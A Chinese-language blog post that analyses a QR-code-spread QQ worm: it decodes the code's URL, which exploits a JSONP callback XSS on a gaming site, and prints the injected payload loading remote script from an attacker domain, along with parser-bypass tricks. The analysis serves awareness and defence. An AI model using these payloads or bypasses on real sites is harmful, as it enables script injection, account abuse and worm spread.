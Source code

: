 ```yaml
---
layout: post
featured-img: worm
title: QQ蠕虫二维码分析
summary: '黄钻专属私密相册'蠕虫病毒二维码发起的CSRF攻击
---
```



**前言**

前几天看到了至少两位同学因为扫描这个二维码，而后即发送二维码给所有好友，以蠕虫形式传播



***

解析二维码，获得网址：

`http%3A%2f%2fi.ali213.net%2fapi.html%3Faction%3Dlogout%26callback%3D%00%00%00%00%00%00%00%3CscripT%2fsrc%3D%2f%2fccccccccccc.nekeda.cn%2ftemplate%2fapp.js%3E%3C%2fscripT%3E%3C%21--`

URL decode得到`http://i.ali213.net/api.html?action=logout&callback=%00%00%00%00%00%00<scripT/src=//ccccccccccc.nekeda.cn/template/app.js></scripT><!--`

whois查询`ali213.net`域名，为游侠游戏网站，看来是调用了正经网站的API



***

访问API：`http://i.ali213.net/api.html?action=logout`

```html
{
	"status":1,
	"msg":"\u767b\u51fa\u6210\u529f",
	"data":{
		"script":"<script type=\"text\/javascript\"src=\"http:\/\/game.ali213.net\/api\/uc.php?time=1534038380&code=f755W9lt6o%2BqYgP7noRqshLJkkaC%2B5tatuf93A%2BStzaG4RDk%2Bc8tvBDMQl%2BFMy60io72HumXtCjNwgVsyA\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/shop.ali213.com\/api\/uc.php?time=1534038380&code=52dbb8X%2Fn%2B1bF%2BRO8srsZBgjLnUcoQ1ZmNOsXsfx3iQAYl3HWz14r0vKPQiWJoXAqqx5FT4BvlTR35Otug\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/passport.ali213.net\/api\/uc.php?time=1534038380&code=f003M1FK18joxKRVW8wD7q06z6PLqWLHnzOpVSNEXaAqZBZS%2B4i7oMEMi1zPmHbQqhmeqELwecnjeLAkOQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/plugin.ali213.net\/api\/uc.php?time=1534038380&code=3358a%2FEySHeMPKTgQfm0ikkqPMDIjun4EUoy0mtcUu0%2BZAuIxOSuQGVBvpoVTq1P1D6s2JGCRLTdXak4MQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/i.ali213.net\/api\/uc.html?time=1534038380&code=c0ecTf31BWZivvpSCfIz2Vy9pu7aEmIf1a6FGU16c%2BrNtkvNBBFs22E%2Fbvr6CCSyX2xb7vt2ZxazvzsCSQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/api.ali213.net\/api\/uc.php?time=1534038380&code=6b3cTo0z9viiFnow3HTKykapqEpk%2FejYeoC5BKYRNsYtK8wh%2FlO71%2BJk0NxrugQw5W%2F2kn4VjHQdVER0tQ\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/3g.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=6095414c49fa4bad204bb189e405aebe\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/game.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=6fc3efe1ae20847e0326173dc5b7ee7c\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/zhidao.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=3a12ba4fb7d01c0e1de8ec8510265356\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/pk.im.iyouxia.com\/aliSSO.php?action=logout&time=1534038381&signature=f283a40aef2e97d83719e57ed3293ed9\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/ol.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=54fd6efba68f7aa98248b4fec552b9a2\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/comment.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=424ad74c51c8582bdf9061b23f3c4215\" reload=\"1\"><\/script><script type=\"text\/javascript\" src=\"http:\/\/wan.ali213.net\/aliSSO.php?action=logout&time=1534038381&signature=0bc3326cd131495296a095bac06dfc3a\" reload=\"1\"><\/script>"
	}
}
```

得到正常的log out json数据



***

接着添加`callback`参数：

`http://i.ali213.net/api.html?action=logout&callback=%3Cscript%3Ealert(0);%3C/script%3E`

![](https://upload-images.jianshu.io/upload_images/11356161-1bd0313bde07798d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

回调的参数改写页面代码格式为：

```html
callback([json]{
	"xxx":"xxx",
	"xxx":"xxx"
})
```

所以这样的接口就相当于是一个可由攻击者写入任意`js`代码的页面，从而发起`xss`



***

**XSS** `payload`：

`<scripT/src=//ccccccccccc.nekeda.cn/template/app.js></scripT><!--`

执行后的页面代码为

```html
<scripT/src=//ccccccccccc.nekeda.cn/template/app.js></scripT><!--({"status":1,"msg":"\u767b\u51fa\u6210\u529f","data":..........
.....
```

+ `<script/src`

  + FireFox的解析器会将标签后的非字母非数字字符认为是一个空白或无效字符
  + Gecko渲染引擎允许任何字符包括字母，数字或特殊字符（例如引号，尖括号等）存在于事件名称和等号之间 ，如`<body onload@#*!$=alert(0)>`
+ `src=//xxx.com`
  + 协议解析绕过。在FireFox下无效
+ `<!--`
  + 注释后面的json部分，有点多余，不注释也不会影响`payload`代码



***

whois查询域名`nekeda.cn`的注册人：魏xx，名下有4600+域名记录

一级域名未绑定IP，二级域名解析到一个`IIS 7`服务器，访问蠕虫`js`代码，来晚了已经404了。

猜想是利用`webQQ`协议的`CSRF`，获取所有好友名单并发送二维码
